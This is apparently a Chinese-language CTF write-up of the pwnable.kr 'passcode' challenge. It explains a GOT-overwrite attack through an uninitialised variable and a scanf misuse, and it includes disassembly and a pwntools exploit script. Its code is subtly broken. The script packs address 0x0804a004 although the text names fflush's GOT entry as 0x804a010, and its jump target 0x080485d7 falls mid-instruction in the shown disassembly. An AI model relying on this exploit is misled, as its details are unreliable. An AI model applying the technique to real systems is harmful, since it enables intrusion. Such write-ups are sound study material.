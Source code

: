 ```yaml
---
layout: post
title: pwnable.kr - GOT overwrite
slug: pwnable.kr - GOT overwrite
category: PWN
published: true
---
```


这是一道pwnable.kr上的题：

```bash
ssh passcode@pwnable.kr -p2222 (pw:guest)
```

进入之后可以查看题目的源码：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}

void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}

int main(){
 printf("Toddler's Secure Login System 1.0 beta.\n");

 welcome();
 login();

 // something after login...
 printf("Now I can safely trust you that you have credential :)\n");
 return 0;
}
```

阅读源码发现，只有你输入的两个密码和源码中相等才能通过，然后调用`system("/bin/cat flag")`拿到flag，但是源码里的`scanf`第二个参数不是变量地址，而是变量，所以无法通过正常手段获取。

可以看到`login`函数中有两个未初始化变量，并且该函数在welcome之后执行。
经过gdb调试发现，`login`的第一个变量`passcode1`在`ebp-0x10`的位置，而`welcome`中的`name`在`ebp-0x70`的位置，这两个变量之间的距离为96，而`name`的缓冲区为100，所以`name`中的最后4个字节是可以覆盖掉`passcode1`的值的。

既然可以覆盖`passcode1`的值，而且`login`函数中又有`scanf`可以向`passcode1`的地址里写值，并且这个二进制是 Partial RELRO的，也就是GOT可写，再有就是`fflush`就在scanf之后执行，那么我们就可以考虑GOT overwrite了。

#### GOT(Global Offset Table)和PLT(Produce linkage Table)

在二进制文件中存在一些动态库的引用（类似于printf\scanf这些从libc.so的引用），这些引用在第一次调用时会去解析。二进制文件中存着一张plt表，这张表是一个数组，保存了所有外部引用函数的一个间接跳转地址。call一个外部函数这个步骤实际会被编译成 call 该函数在plt的地址。

在进入plt表后，第一条指令便是跳转到相应的GOT位置。GOT在数据段，保存的是该二进制引用的全局数据的偏移量，包括全局函数，其结构也是数组。前三项是固定的，包含了动态链接器解析函数地址时候的信息。而GOT又会将指令指向PLT的第二条指令，此时PLT的指令是`push index`，它将该函数在GOT的全局偏移量（这里的`index`）压入栈，然后又跳到PLT的第一个表项。PLT的第一个表项是一个例外，它是一条跳转到动态链接器中的指令，然后又将GOT[1]压入栈，最后调用GOT[2]中的动态链接器函数，该函数使用栈上的两个参数来完成解析。并且，将实际地址写入该函数对应的GOT表项中，之后调用就不再需要动态链接器解析了。

通过objdump -R passcode可以看到`fflush`函数在GOT的位置

```bash
clot@ubuntu:~/CTF/passcode$ objdump -R passcode

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ffc R_386_GLOB_DAT    __gmon_start__
0804a040 R_386_COPY        stdin@@GLIBC_2.0
0804a00c R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   fflush@GLIBC_2.0
...
```

或者通过gdb来看

```bash
pwndbg> disas login
Dump of assembler code for function login:
   0x0804859b <+0>: push   ebp
   0x0804859c <+1>: mov    ebp,esp
   0x0804859e <+3>: sub    esp,0x18
   0x080485a1 <+6>: sub    esp,0xc
   0x080485a4 <+9>: push   0x8048780
   0x080485a9 <+14>: call   0x8048410 <printf@plt>
   0x080485ae <+19>: add    esp,0x10
   0x080485b1 <+22>: sub    esp,0x8
   0x080485b4 <+25>: push   DWORD PTR [ebp-0x10]
   0x080485b7 <+28>: push   0x8048793
   0x080485bc <+33>: call   0x8048480 <__isoc99_scanf@plt>
   0x080485c1 <+38>: add    esp,0x10
   0x080485c4 <+41>: mov    eax,ds:0x804a040
   0x080485c9 <+46>: sub    esp,0xc
   0x080485cc <+49>: push   eax
   0x080485cd <+50>: call   0x8048420 <fflush@plt>    # <-
   0x080485d2 <+55>: add    esp,0x10
   0x080485d5 <+58>: sub    esp,0xc
   0x080485d8 <+61>: push   0x8048796
   
pwndbg> disas 0x8048420
Dump of assembler code for function fflush@plt:
   0x08048420 <+0>: jmp    DWORD PTR ds:0x804a010   # <-
   0x08048426 <+6>: push   0x8
   0x0804842b <+11>: jmp    0x8048400
End of assembler dump.

```

都是地址`0x804a010`，这个就是在GOT表中的地址，如果重写它，将它改为调用system函数的地址，这样`fflush`函数从plt表跳转到GOT表时，就调用了`system`函数了，即可获得flag。

#### Exploit

```python
#!/usr/bin/python3
from pwn import *

fflushGOTAddress = '\x04\xa0\x04\x08'
systemCall = 0x080485d7
payload = "a" * 96 
payload += fflushGOTAddress
payload += str(int(systemCall))

r = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = r.process(executable='./passcode', argv=["./passcode"])

print(p.recvline(1024, timeout=2.0))
p.sendline(payload)
print(p.recvall(timeout=1.0))
p.close()

```

#### Reference

《深入理解计算机系统》

《Linux二进制分析》
